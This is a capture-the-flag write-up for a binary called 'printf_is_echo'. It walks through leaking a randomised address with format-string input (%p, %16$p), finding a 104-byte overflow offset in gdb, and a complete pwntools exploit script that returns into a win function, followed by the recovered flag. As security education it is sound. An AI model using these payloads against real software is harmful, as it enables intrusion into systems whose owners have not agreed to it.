 # printf_is_eho

Oh boy. We got by the title what looks to be some sort of challenge involving printf.  Let's run the binary and take a look.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
I give up
```

Uh oh, so ASLR is enabled.  This means we don't know what the address of the win function will be since it changes every time.  If only there was a way to leak addresses from the stack, we might be able to get something.  Well, maybe we can.  

If the `printf` is used in an insecure way, directly passing user controled variables as arguments to the funtion, then we can make really bad things happen.

For example.  What would happen if we has a printf function like this:
`printf(userinput);`
and we passed in `%p`?

Well, it will treat the `%p` as an argument and print the pointer data on the stack.  Let's try it out with the program.

```
%p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p
0x7ffdc72101a0, 0x7fb27237f8d0, 0xf, (nil), 0x7fb2725934c0, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, (nil), 0x5646bc24d79a, 0x5646bc24d690, 0x7ffdc7210210,
I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
```

Well sweet, looks like we got some leaked addresses.  Not only that, but there is an address in the 16th spot that ends in `0x79a`. That's our win function!!

We can make this a bit cleaner by just inputing `%16$p`.  Let's verify this works and we get the right address.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
%16$p
0x557959a5079a

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
```

Awesome.  Next step now that we have the win function is to try to get our program to return to it. This will probably be accomplised via a buffer overflow attack on the second input option. And after messing around a bit, I was able to find that the buffer we had was going to be 104 bytes before we started overwriting the instruction pointer:

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/printf_is_echo
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0xf
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x7fffffffde80 ('A' <repeats 96 times>, "BBBBBBBB\n")
RDI: 0x7fffffffde81 ('A' <repeats 95 times>, "BBBBBBBB\n")
RBP: 0x4242424242424242 ('BBBBBBBB')
```

So, we have a way of getting the address of win(), we know our padding size. We can now build an exploit!

```python
from pwn import *
import os, sys
#io = process('./printf_is_echo')
io = remote('ctf.ropcity.com', 31338)

context(arch = "amd64")

io.recvuntil("try it!\n")

printf = "%16$p"

io.sendline(printf)

win = int(io.recvline(), 16)
log.info(win)

padding = b'A'*104
io.recvuntil('unhackable')
payload = padding + p64(win)

io.sendline(payload)
io.interactive()
```

And after running it we get the flag!

```
[+] Opening connection to ctf.ropcity.com on port 31338: Done
[*] 94681416755098
[*] Switching to interactive mode

osu{F0rMa7_$tRing_1s_FUN}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03
[*] Got EOF while reading in interactive
```
Woot! Major Pog.  That was a fun challenged and learned a lot about how format string vulns work!
